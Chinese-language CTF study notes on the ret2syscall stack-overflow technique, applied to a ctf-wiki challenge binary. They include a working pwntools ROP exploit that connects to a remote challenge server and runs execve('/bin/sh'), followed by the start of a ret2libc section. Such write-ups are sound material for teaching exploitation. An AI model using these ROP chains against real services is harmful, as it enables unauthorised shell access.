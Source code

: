 
### ret2syscall

控制程序执行系统调用

[ret2syscall](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2syscall/bamboofox-ret2syscall/rop)

![img](https://my-md-1253484710.file.myqcloud.com/20190407152204.png)

![img](https://my-md-1253484710.file.myqcloud.com/20190407152706.png)

相对ebp的偏移为0x64=108 覆盖范围为+4=112

没法ret2text,也没法ret2shellcode

只有使用系统调用来getshell。执行 int 0x80即可执行对应的系统调用

```plain text
execve("/bin/sh",NULL,NULL)
```

使用ROPgadget寻找gadgets

![img](https://my-md-1253484710.file.myqcloud.com/20190407155958.png)

这样就能够控制到eax,ebx,ecx,edx寄存器。

![img](https://my-md-1253484710.file.myqcloud.com/20190407160123.png)

![img](https://my-md-1253484710.file.myqcloud.com/20190407160710.png)

写payload:

```python
#coding:utf-8
from pwn import *
# context(log_level = 'debug',arch ='i386',os = 'linux' )
# io = process(./ret2syscall)
io = remote("47.106.212.155",10004)

pop_eax_addr = 0x080bb196
pop_ebcdx_addr = 0x0806eb90
int_0x80_addr = 0x08049421
bin_sh_addr = 0x080BE408
payload = flat(
    ["A"*112,pop_eax_addr,0xb,pop_ebcdx_addr,0,0,bin_sh_addr,int_0x80_addr]
)
io.sendline(payload)
io.interactive()
```

### ret2libc

ret2libc 即控制函数的执行 libc 中的函数，通常是返回至某个函数的 plt 处或者函数的具体位置 (即函数对应的 got 表项的内容)。一般情况下，我们会选择执行 system(“/bin/sh”)，故而此时我们需要知道 system 函数的地址。
